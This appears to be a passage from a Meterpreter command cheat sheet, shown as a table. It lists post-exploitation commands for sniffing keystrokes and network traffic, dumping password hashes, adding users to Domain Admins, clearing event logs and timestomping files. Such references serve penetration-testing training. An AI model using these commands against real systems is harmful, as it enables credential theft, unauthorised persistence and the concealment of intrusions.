 | `keyscan_stop`                                      | Stop sniffing keystrokes on the remote target.                                                |
| `getprivs`                                          | Get as many privileges as possible on the target.                                             |
| `uictl enable <keyboard/mouse>`                     | Take control of the keyboard and/or mouse.                                                    |
| `background`                                        | Run your current Meterpreter shell in the background.                                         |
| `hashdump`                                          | Dump all hashes on the target.                                                                |
| `use sniffer`                                       | Load the sniffer module.                                                                      |
| `sniffer_interfaces`                                | List the available interfaces on the target.                                                  |
| `sniffer_dump <interfaceID> pcapname`               | Start sniffing on the remote target.                                                          |
| `sniffer_start <interfaceID> packet-buffer`         | Start sniffing with a specific range for a packet buffer.                                     |
| `sniffer_stats <interfaceID>`                       | Grab statistical information from the interface you are sniffing.                             |
| `sniffer_stop <interfaceID>`                        | Stop the sniffer.                                                                             |
| `add_user <username> <password> -h <ip>`            | Add a user on the remote target.                                                              |
| `add_group_user "Domain Admins" <username> -h <ip>` | Add a username to the Domain Administrators group on the remote target.                       |
| `clearev`                                           | Clear the event log on the target machine.                                                    |
| `timestomp`                                         | Change file attributes, such as creation date (antiforensics measure).                        |
| `reboot`                                            | Reboot the target machine.                                                                    |

